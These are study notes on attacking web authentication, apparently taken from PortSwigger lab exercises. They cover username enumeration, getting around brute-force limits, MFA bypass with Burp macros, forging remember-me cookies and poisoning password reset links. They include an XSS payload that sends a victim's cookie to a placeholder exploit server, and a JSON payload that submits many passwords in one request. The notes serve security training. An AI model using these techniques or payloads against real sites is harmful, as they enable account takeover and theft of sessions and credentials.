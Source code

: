 # Authentication attacks
## Password-based
Analyze responses and content-length when trying to determine username. We can detect correct username without knowing correct password, which will decrease brute-force attempts  
Also check response messages (with grep in Intruder settings). For example app can throw "Invalid username or password" or just "Invalid password"  
Some systems could be protected from brute-forcing via IP whitelisting. It could be bypassed if we have control over X-Forwarded-For parameter in HTTP request  
Another brute-force protection flaw - reseting IP blocking after successfull login. So if we brute and stuck with blocked IP, we can login with valid creds and then continue attack.  
We need to count how much incorrect attempts are allowed and then log in with valid creds. This could be done with Turbo Intruder or macro extension.  
Another way of protection - account locking.  
We can choose small amount of opasswords and bruteforce usernames for this passwords, so we have vice-versa brute-forcing with goal to obtain at least just one account with common password.  
Some apps could be vulnerable to sending multiple credentials at once:
```
"username" : "carlos",
"password" : [
    "123456",
    "password",
    "qwerty"
    ...
]
```
## MFA
If verification step is done on separate tab, you can see that user is in "logged in" state  
So you can try to access forbidden pages after logging with valid creds without entering MFA token, simply bypassing it.  
  
Another way is to use victim's cookie in verification step. We login at our own account, but on verification step we cahnge our cookie to victim's cookie and in such way we are able to get in victim's account even without it's password.  
Also this method involves brute-forcing of 2FA code  
Sometimes 2FA is protected from bruteforce, but we can bypass it using burp macro  
Settings - Projects - Sessions - Add rule - Add macro - record macro  
Our macro could be
```
GET /login
POST /login
GET /login2
```
Set this amcro to all URL's (in Scope tab). Now we start bruteforce POST request to /login2 (MFA). WIth use of macro, each our request will be "surrounded" by relogin attempts which will help us to bypass 2FA.  

## Other auth issues
### Remember me
Stored sessions (remember me) are often implemented with "remember-me" cookie. If they are easily guessable or poorly encrypred, we can generate our own cookie in order to gain access over victim's account.  
Such cookies could have some obfuscation  
Example:  
carlos:<md5 hash>  
In such situation we add rules at intruder (and password wordlist): hash MD5, add prefix carlos: and encode as base64  

### Remember-me + XSS
We can put XSS into comments section to steal someone cookie and then decode it from ahsh:
```
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```
Note: we can use crackstation to decode hashes

### Password reset
In insecure URL design we are able to change some parameters to change password
```
http://vulnerable-website.com/reset-password?user=victim-user
```
If site sues tokens in place of suer parameter, we can check if it's handled securely. It must be deleted after short period of time, or we will be able to steal this token and use it to change someone's password  

We can steal password reset token via poisoning X-Forwarded-Host parameter.  
If we add Header X-Forwarded-Host with our exploit server when resetting password and change our username to victim's (in payload), victim will click to the link and send token to us.

### Password change
If we can access to change password page directly, we can bruteforce password from there.
Also some broken logic will help. For example if we enter correct current password and two non-matching new passwords, app wil throw error "passwords do not match". But if we enter incorrect current password, it says "incorrect password". With help of rhis we can brute via payload containing unmatching new passwords and receive lot of errors like "incorrect password" until we detect "passwords doesn't match".  

